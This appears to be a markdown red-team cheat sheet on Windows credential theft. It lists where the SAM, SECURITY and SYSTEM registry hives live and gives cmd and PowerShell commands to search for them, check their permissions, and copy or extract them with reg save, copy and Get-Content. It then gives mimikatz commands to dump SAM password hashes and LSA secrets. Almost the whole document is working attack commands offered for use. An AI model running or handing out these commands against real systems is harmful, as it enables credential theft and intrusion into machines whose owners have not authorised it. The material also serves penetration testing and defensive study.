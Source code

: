 # Living off the Land

## 01 - Common Windows hive files locations

```
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
C:\Windows\Repair\SAM
C:\Windows\Repair\SYSTEM
```

## 02 - Search hive files

### 2.1 - Command Prompt

```
C:\> dir /s /b SECURITY

C:\> dir /s /b SYSTEM

C:\> dir /s /b SAM
```

### 2.2 - Powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM
```

## 03 - Enumerate hive files

### 3.1 - Command Prompt

```
C:\> icacls C:\Windows\System32\config\SECURITY
icacls C:\Windows\System32\config\SYSTEM
icacls C:\Windows\System32\config\SAM
icacls C:\Windows\Repair\SAM
icacls C:\Windows\Repair\SYSTEM
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges.

### 3.2 - Powershell

TODO: More ways to find and enumerate in powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM | Get-ACL
```

## 04 - Extract hive files

## 4.1 - Command Prompt

#### 4.1.1 - Extract it via registry

```
C:\> reg save hklm\security c:\temp\security
reg save hklm\system c:\temp\system
reg save hklm\sam c:\temp\sam
```

#### 4.1.2 - Copy files

```
C:\> copy C:\Windows\System32\config\SAM c:\temp\sam

C:\> copy C:\Windows\System32\config\SECURITY C:\temp\security 

C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 4.1.3 - Output the files' contents

```
C:\> type C:\Windows\System32\config\SAM > c:\temp\sam

C:\> type C:\Windows\System32\config\SECURITY > C:\temp\security

C:\> type C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 4.2 - Powershell

#### 4.2.2 - Copy files

```
PS C:\> Copy-Item C:\Windows\System32\config\SAM c:\temp\sam

PS C:\> Copy-Item C:\Windows\System32\config\SECURITY C:\temp\security 

PS C:\> Copy-Item C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 4.2.3 - Output the files' contents

```
PS C:\> Get-Content C:\Windows\System32\config\SAM > c:\temp\sam

PS C:\> Get-Content C:\Windows\System32\config\SECURITY > C:\temp\security

PS C:\> Get-Content C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 05 - Hashdump

### 5.1 - Dumping SAM credentials with `mimikatz`

```
mimikatz # lsadump::sam /system:c\:temp\system /sam:c:\temp\sam
```

## 06 - LSASS Secrets

### 6.1 - Dumping LSASS secrets credentials with `mimikatz`

```
mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security
```

---
## References

- [Red Team Notes: Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)